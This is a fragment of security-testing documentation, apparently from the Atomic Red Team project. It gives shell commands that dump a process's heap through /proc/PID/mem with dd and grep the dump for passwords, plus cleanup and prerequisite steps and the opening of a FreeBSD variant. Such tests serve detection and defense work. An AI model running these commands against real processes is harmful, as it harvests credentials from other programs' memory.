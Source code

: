 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
sh #{script_path}
PID=$(pgrep -n -f "#{pid_term}")
HEAP_MEM=$(grep -E "^[0-9a-f-]* r" /proc/"$PID"/maps | grep heap | cut -d' ' -f 1)
MEM_START=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f1))))
MEM_STOP=$(echo $((0x$(echo "$HEAP_MEM" | cut -d"-" -f2))))
MEM_SIZE=$(echo $((0x$MEM_STOP-0x$MEM_START)))
dd if=/proc/"${PID}"/mem of="#{output_file}" ibs=1 skip="$MEM_START" count="$MEM_SIZE"
grep -i "PASS" "#{output_file}"
```

#### Cleanup Commands:
```sh
rm -f "#{output_file}"
```



#### Dependencies:  Run with `sh`!
##### Description: Script to launch target process must exist
##### Check Prereq Commands:
```sh
test -f #{script_path}
grep "#{pid_term}" #{script_path}
```
##### Get Prereq Commands:
```sh
echo '#!/bin/sh' > #{script_path}
echo "sh -c 'echo \"The password is #{pid_term}\" && sleep 30' &" >> #{script_path}
```




<br/>
<br/>

## Atomic Test #2 - Dump individual process memory with sh on FreeBSD (Local)
Using `/proc/$PID/mem`, where $PID is the target process ID, use shell utilities to
copy process memory to an external file so it can be searched or exfiltrated later.
On FreeBSD procfs must be mounted.

**Supported Platforms:** Freebsd


**auto_generated_guid:** fa37b633-e097-4415-b2b8-c5bf4c86e423




